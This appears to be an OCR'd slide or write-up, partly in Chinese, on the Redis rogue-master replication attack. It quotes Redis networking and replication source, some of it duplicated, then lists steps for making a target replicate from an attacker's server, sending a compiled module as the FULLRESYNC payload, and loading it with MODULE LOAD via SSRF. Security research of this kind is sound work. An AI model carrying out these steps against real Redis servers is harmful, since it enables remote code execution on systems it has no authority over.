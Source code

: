 ### data retrieval

```c
//networking.c
int prepareClientToWrite(client *c) {
    ...
    if(c->flags & (CLIENT_LUA|CLIENT_MODULE)){
        return C_OK;
        ...
    }
        
    if ((c->flags & CLIENT_MASTER) && !(c->flags & CLIENT_MASTER_FORCE_REPLY))
        return C_ERR;
}
int prepareClientToWrite(client *c) {
    ...
    if (c->flags & (CLIENT_LUA|CLIENT_MODULE))
    return C_OK;
    ...
    if ((c->flags & CLIENT_MASTER) &&
    !(c->flags & CLIENT_MASTER_FORCE_REPLY))
    return C_ERR;
```

### pwn

在上面 create rogue server 第3步，`PSYNC/SYNC <replid>` ，需要异步读取SYNC payload 。

```c
/* Asynchronously read the SYNC payload we receive from a master */
void readSyncBulkPayload(aeEventLoop *el, int fd, void *privdata, int
mask) {
 ...
 if (rename(server.repl_transfer_tmpfile,server.rdb_filename) == -1) {
 ...
 }
 ...
 if (rdbLoad(server.rdb_filename,&rsi) != C_OK) {
 serverLog(LL_WARNING,"Failed trying to load the MASTER 
synchronization DB from disk");
```

We can write arbitrary data to database file.

"Redis modules make possible to extend Redis functionality using external modules, implementing new Redis commands at a speed and with features similar to what can be done inside the core itself."

MODULE LOAD /path/to/mymodule.so

#### exploitation steps
1. Make the server to be a slave of our rogue server
2. Read dbfilename (or set your own) value using previous data retrieval technique and drop connection `CONFIG GET dbfilename` or `CONFIG SET dbfilename pwn`
3. On new connection initiate FULLRESYNC from master and send compiled module as payload `+FULLRESYNC <Z*40> 1\r\n$<len>\r\n<pld>`
4. Load module (dbfilename) using SSRF `MODULE LOAD ./dump.rdb or MODULE LOAD ./pwn`
